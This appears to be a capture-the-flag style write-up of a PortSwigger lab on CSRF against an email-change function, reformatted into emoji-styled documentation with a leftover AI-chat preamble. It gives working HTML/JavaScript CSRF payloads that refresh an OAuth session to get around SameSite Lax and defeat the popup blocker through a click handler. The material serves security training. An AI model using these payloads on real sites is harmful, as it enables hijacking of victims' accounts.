# Lab 10: SameSite Lax bypass via cookie refresh

Perfect ✅ Let’s transform this **CSRF (Change Email with OAuth Login)** lab into a **colorful, GitHub/Notion-style documentation** with icons, emojis, and structured steps.

Here’s your polished version:

---

# 🧪 Lab: CSRF Attack via **Change Email Function** (OAuth Login)

This lab's **change email function** is vulnerable to **CSRF**.

To solve the lab, perform a **CSRF attack** that changes the victim's email address.

👉 You must use the **provided exploit server** to host your attack.

---

## 🔑 Login Info

- **OAuth login supported**
- Use the following credentials to log in:

```
wiener:peter
```

---

## 📝 Notes & Hints

⚠️ **SameSite Restrictions**

- Chrome defaults to **Lax**, so use **Chrome** (or Burp's Chromium browser) for testing.

💡 **Hints**:

- You cannot use an email that is already registered.
- For the final exploit, ensure you use a **unique email address**.
- Popups are blocked unless triggered by **user interaction (e.g., click)**.

Example:

```html
<script>
    window.onclick = () => {
        window.open('about:blank')
    }
</script>
```

---

## ⚙️ Solution

---

## 🔹 Step 1 - Study the Change Email Function

1. In Burp’s browser → Login via **OAuth**.
2. Change your email address.
3. In **Burp Proxy > HTTP history** → Look at:
    
    ```
    POST /my-account/change-email
    ```
    
    - ✅ No unpredictable tokens → vulnerable to CSRF.
4. Check `GET /oauth-callback?code=[...]` →
    - Session cookies have no SameSite specified → Default **Lax** applies.
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    
    

---

## 🔹 Step 2 - Attempt a CSRF Attack

On the **exploit server**, use a basic CSRF payload:

```html
<form action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email" method="POST">
    <input type="hidden" name="email" value="foo@bar.com" />
    <input type="submit" value="Submit request" />
</form>
<script>
    document.forms[0].submit();
</script>
```

- Store & view the exploit yourself.

👉 Outcomes:

- ⏱ If logged in **<2 minutes ago** → attack works.
- ⏱ If logged in **>2 minutes ago** → OAuth refresh occurs → attack fails.
    
    
    
    
    
    
    

---

## 🔹 Step 3 - Bypass SameSite Restrictions

Notice:

- Visiting `/social-login` → automatically triggers OAuth flow.
- Each OAuth flow issues a **new session cookie**.

So update the exploit:

```html
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@web-security-academy.net">
</form>
<script>
    window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
    setTimeout(changeEmail, 5000);

    function changeEmail(){
        document.forms[0].submit();
    }
</script>
```

⚠️ Problem: Popup blocked if no **user interaction**.






---

## 🔹 Step 4 - Bypass Popup Blocker

Update exploit to **require a click**:

```html
<form method="POST" action="https://YOUR-LAB-ID.web-security-academy.net/my-account/change-email">
    <input type="hidden" name="email" value="pwned@portswigger.net">
</form>
<p>👉 Click anywhere on the page 👈</p>
<script>
    window.onclick = () => {
        window.open('https://YOUR-LAB-ID.web-security-academy.net/social-login');
        setTimeout(changeEmail, 5000);
    }

    function changeEmail() {
        document.forms[0].submit();
    }
</script>
```

✅ Flow:

- Victim clicks page → OAuth flow refreshes session.
- After 5s → CSRF **auto-submits** → email changed.
    
    
    
    
    
    
    

---

## 🎯 Final Steps

- Confirm email change in your own account.
- Update exploit email to something different from your own.
- Deliver exploit to victim → 🏆 **Lab Solved**.
    
